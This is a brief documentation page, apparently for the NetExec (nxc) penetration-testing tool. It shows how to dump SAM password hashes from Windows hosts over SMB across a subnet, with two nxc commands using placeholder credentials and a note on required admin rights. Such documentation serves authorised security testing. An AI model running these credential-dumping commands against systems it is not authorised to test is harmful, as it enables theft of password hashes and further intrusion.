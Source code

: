 # Dump SAM

### Dump SAM hashes using methods from secretsdump.py

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```bash
nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam
```

If this command fail you can also try the old method (similar to secretdump)

```bash
nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam secdump
```
